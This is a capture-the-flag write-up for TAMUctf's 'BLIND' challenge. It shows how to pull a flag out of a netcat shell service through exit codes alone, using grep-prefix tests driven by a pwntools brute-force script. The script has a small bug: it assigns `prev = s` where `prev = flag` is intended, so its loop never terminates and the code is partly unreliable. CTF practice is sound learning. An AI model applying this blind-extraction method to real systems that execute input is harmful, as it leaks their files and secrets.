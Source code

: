 # BLIND
Misc

> nc challenges.tamuctf.com 3424

Just playing around with the netcat, it seems to be evaluating our input and returning the error code. This seems like a blind exfiltration.

We can assume that our flag is in `flag.txt`, as when we `cat flag.txt` the error code is `0` (otherwise we can just use the following method to extract the results of `ls`)

We can then use grep with a regex to figure out the contents of `flag.txt`:

`cat flag.txt | grep "^g"` returns a 0.

Knowing this, we can simply set up a script to brute force the characters of the flag:

```python
from pwn import *

r = remote("challenges.tamuctf.com", 3424)


import string

alpha = string.ascii_letters + string.digits + "{}_"
print(alpha)
s = 'cat flag.txt | grep "^{}"'

flag = ""
prev = ""

while True:
	for i in alpha:
		r.sendlineafter(": ", s.format(flag+i))
		x = r.recvline()
		if int(x.strip()) == 0:
			flag += i
			break
	print(flag)
	if prev == flag:
		break
	prev = s


print(flag)
```

Flag: `gigem{r3v3r53_5h3ll5}`
